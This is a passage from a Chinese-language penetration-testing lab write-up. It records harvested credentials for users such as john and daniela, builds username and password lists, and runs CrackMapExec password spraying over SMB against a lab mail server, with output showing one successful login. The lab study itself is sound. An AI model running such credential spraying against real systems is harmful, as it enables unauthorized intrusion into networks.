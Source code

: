 #### 4. 記錄新獲得的憑證
```
┌──(chw㉿CHW)-[~/beyond]
└─$ echo "john: dqsTwTpZPn#nL (192.168.50.245)" >> creds.txt
```
## Gaining Access to the Internal Network
### Domain Credentials
#### 1. 確認現有的憑證
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cat creds.txt    
daniela: tequieromucho
DB_USER: wordpress, DB_PASSWORD: DanielKeyboard3311
john: dqsTwTpZPn#nL (192.168.50.245)

```
> 已發現的使用者: `marcus`, `daniela`, `john`

建立測試帳號與密碼列表:
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cat usernames.txt 
marcus
john
daniela

┌──(chw㉿CHW)-[~/beyond]
└─$ cat passwords.txt      
tequieromucho
DanielKeyboard3311
dqsTwTpZPn#nL
```
#### 2. CrackMapExec 測試帳密組合
使用 CrackMapExec 測試這些帳密是否能登入 MAILSRV1 (透過 SMB 協議)
```
┌──(chw㉿CHW)-[~/beyond]
└─$ crackmapexec smb 192.168.117.242 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.117.242 445    MAILSRV1         [*] Windows Server 2022 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\marcus:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\marcus:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\marcus:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\john:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\john:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\daniela:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\daniela:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.117.242 445    MAILSRV1         [-] beyond.com\daniela:dqsTwTpZPn#nL STATUS_LOGON_FAILURE
```
> `john`:`dqsTwTpZPn#nL` 登入 `MAILSRV1`\
> 且確認 MAILSRV1 加入 `beyond.com` 網域，在內網的一部分
